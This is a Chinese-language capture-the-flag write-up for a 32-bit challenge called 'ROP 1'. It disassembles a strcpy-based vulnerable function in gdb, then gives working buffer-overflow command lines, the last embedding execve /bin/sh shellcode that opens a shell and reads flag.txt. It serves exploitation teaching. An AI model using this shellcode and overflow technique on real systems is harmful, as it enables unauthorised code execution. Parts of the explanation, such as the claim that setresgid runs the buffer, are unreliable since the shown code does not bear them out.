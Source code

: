 # ROP 1
執行檔被ASLR保護的時候，就是使用如標題[return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)的時候了！

## Gathering Information
 * 編譯好後，打開gdb，看提示說的`%eax`有什麼用：
```
$ gdb -q rop1
Reading symbols from rop1...(no debugging symbols found)...done.
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x08048e60 <+0>:	push   %ebp
   0x08048e61 <+1>:	mov    %esp,%ebp
   0x08048e63 <+3>:	sub    $0x48,%esp; buf
   0x08048e66 <+6>:	sub    $0x8,%esp; name
   0x08048e69 <+9>:	pushl  0x8(%ebp); argument name of strcpy
   0x08048e6c <+12>:	lea    -0x48(%ebp),%eax; load buf -> %eax!
   0x08048e6f <+15>:	push   %eax; argument buf of strcpy
   0x08048e70 <+16>:	call   0x80481e0; calling strcpy
   0x08048e75 <+21>:	add    $0x10,%esp
   0x08048e78 <+24>:	leave
   0x08048e79 <+25>:	ret
End of assembler dump.
```
 * `%eax`存著指到buf的pointer，那麼有什麼function會用到呢？
```
(gdb) disass be_nice_to_people
Dump of assembler code for function be_nice_to_people:
   0x08048e3c <+0>:	push   %ebp
   0x08048e3d <+1>:	mov    %esp,%ebp
   0x08048e3f <+3>:	sub    $0x18,%esp
   0x08048e42 <+6>:	call   0x806c2d0 <getegid>
   0x08048e47 <+11>:	mov    %eax,-0xc(%ebp); here
   0x08048e4a <+14>:	sub    $0x4,%esp
   0x08048e4d <+17>:	pushl  -0xc(%ebp)
   0x08048e50 <+20>:	pushl  -0xc(%ebp)
   0x08048e53 <+23>:	pushl  -0xc(%ebp)
   0x08048e56 <+26>:	call   0x806c2e0 <setresgid> ; !!!!
   0x08048e5b <+31>:	add    $0x10,%esp
   0x08048e5e <+34>:	leave  
   0x08048e5f <+35>:	ret
```
 * 整理一下，目前有的線索：
  * `%eax`存著指到`buf`的pointer
  * `be_nice_to_people`的`setresgid`會把buf搬到那裡執行！

## Solve
 * 目前stack：
```
...
<ret addr>
<old %ebp>   <= %ebp
<buf..0x48
bytes..long>
<addr-name>
<addr -buf>   <= %esp
```
 * overflow `<ret addr>` 成`be_nice_to_people`的位置(`0x8048e3c`)
```bash
$ ./rop1 "$(python -c 'print "A" * 0x48 + "A" * 4 + "\x3c\x8e\x04\x08"')"
Illegal instruction (core dumped)
```
 * bingo！接下來，替換成開啟shell的shellcode：
```
$ ./rop1 "$(python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "A" * 36 + "\x3c\x8e\x04\x08"')"
$ ls
Makefile    flag.txt    rop1    rop1.c
$ cat flag.txt
theres_no_need_to_guess
```
